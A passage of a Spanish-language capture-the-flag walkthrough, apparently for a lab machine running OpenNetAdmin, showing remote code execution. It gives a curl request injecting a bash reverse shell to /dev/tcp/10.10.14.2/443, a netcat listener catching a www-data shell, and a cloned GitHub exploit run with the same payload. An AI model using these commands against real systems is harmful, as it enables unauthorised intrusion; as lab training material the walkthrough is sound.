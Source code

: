 El siguiente paso será lograr obtener una Reverse Shell para lograr conectarnos a la máquina vulnerable. Para ello, nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

A través del siguiente comando, lograremos explotar la vulnerabilidad presente en `OpenNetAdmin` indicándole que ejecute una Reverse Shell hacia nuestro equipo.

```bash
❯ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;/bin/bash -c 'bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/
```

Verificamos que finalmente logramos obtener acceso a la máquina victima con el usuario`www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.171] 46856
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ 
```

#### Explotación automatizada

Por otro lado, también podemos hacer la explotación a través del siguiente exploit que nos hemos encontrado en GitHub el cual realiza la explotación de la vulnerabilidad de manera más automatizada.

{% embed url="https://github.com/sec-it/OpenNetAdmin-RCE" %}

```bash
❯ git clone https://github.com/sec-it/OpenNetAdmin-RCE; cd OpenNetAdmin-RCE
Clonando en 'OpenNetAdmin-RCE'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 2), reused 5 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (10/10), 4.78 KiB | 4.78 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```

Nos volveremos a poner en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit indicándole la `URL Target` donde se encuentra el `OpenNetAdmin` y le indicaremos que ejecute una Reverse Shell.

```bash
❯ ruby exploit.rb exploit http://10.10.10.171/ona/ '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"'
```
